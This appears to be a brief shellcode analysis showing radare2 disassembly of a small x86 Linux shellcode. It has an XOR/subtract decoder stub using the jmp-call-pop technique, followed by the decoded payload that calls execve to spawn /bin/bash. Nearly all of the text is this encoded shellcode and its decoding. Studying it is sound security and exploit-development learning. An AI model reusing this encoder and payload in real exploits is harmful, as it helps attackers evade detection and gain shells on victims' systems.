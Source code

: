```shell
> i | grep size
size     0x4a
> pI 0x4a @ 0x00
jmp 0x27
pop esi
xor ecx, ecx
mov cl, 0x1e
cmp byte [esi], 7
jl 0x11
sub byte [esi], 7
jmp 0x22
xor ebx, ebx
xor edx, edx
mov bl, 7
mov dl, 0xff
inc dx
sub bl, byte [esi]
sub dx, bx
mov byte [esi], dl
inc esi
loop 7
jmp 0x2c
call 2
xor eax, eax
push eax
push 0x68736162
push 0x2f6e6962
push 0x2f2f2f2f
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 0xb
int 0x80
```

The decrypted shellcode:

```shell
xor eax, eax
push eax
push 0x68736162
push 0x2f6e6962
push 0x2f2f2f2f
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 0xb
int 0x80
```
